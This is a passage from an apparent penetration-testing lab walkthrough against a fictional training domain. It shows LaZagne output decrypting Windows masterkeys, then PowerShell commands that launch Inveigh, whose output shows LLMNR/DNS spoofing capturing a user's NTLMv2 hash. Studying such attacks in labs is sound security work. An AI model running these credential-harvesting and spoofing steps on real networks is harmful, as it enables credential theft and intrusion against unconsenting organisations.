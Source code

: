 |====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 6f898230-c272-4f85-875c-9f7b354ce485
[+] System masterkey decrypted for 9ccbb5e8-66c9-4210-a46c-a72e8f750734
[+] System masterkey decrypted for 08ed962e-44d9-4e2c-9985-392b699c25ae
[+] System masterkey decrypted for d4bfcc8b-5eec-485d-8adb-9ed4ae5656d6

[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 3.29700016975
</code></pre>
<p>It's also worth running <a href="https://github.com/Kevin-Robertson/Inveigh">Inveigh</a> once we have local admin on a host to see if we can obtain password hashes for any users.</p>
<pre><code class="language-powershell-session">PS C:\Users\ilfserveradm\Documents&gt; Import-Module .\Inveigh.ps1
PS C:\Users\ilfserveradm\Documents&gt; Invoke-Inveigh -ConsoleOutput Y -FileOutput Y

[*] Inveigh 1.506 started at 2022-06-22T15:03:32
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 172.16.8.50
[+] Spoofer IP Address = 172.16.8.50
[+] ADIDNS Spoofer = Disabled
[+] DNS Spoofer = Enabled
[+] DNS TTL = 30 Seconds
[+] LLMNR Spoofer = Enabled
[+] LLMNR TTL = 30 Seconds
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer = Disabled
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] HTTPS Capture = Disabled
[+] HTTP/HTTPS Authentication = NTLM
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] WPAD Response = Enabled
[+] Kerberos TGT Capture = Disabled
[+] Machine Account Capture = Disabled
[+] Console Output = Full
[+] File Output = Enabled
[+] Output Directory = C:\Users\ilfserveradm\Documents
WARNING: [!] Run Stop-Inveigh to stop
[*] Press any key to stop console output
[+] [2022-06-22T15:04:05] TCP(445) SYN packet detected from 172.16.8.20:55623
[+] [2022-06-22T15:04:05] SMB(445) negotiation request detected from 172.16.8.20:55623
[+] [2022-06-22T15:04:05] Domain mapping added for INLANEFREIGHT to INLANEFREIGHT.LOCAL
[+] [2022-06-22T15:04:05] SMB(445) NTLM challenge 5EB0B310E7B8BA04 sent to 172.16.8.20:55623
[+] [2022-06-22T15:04:05] SMB(445) NTLMv2 captured for ACADEMY-AEN-DEV\mpalledorous from 172.16.8.20(ACADEMY-AEN-DEV):55623:
mpalledorous::ACADEMY-AEN-DEV:5EB0B310E7B8BA04:&lt;SNIP&gt;
</code></pre>
<hr/>
<h2>Closing In</h2>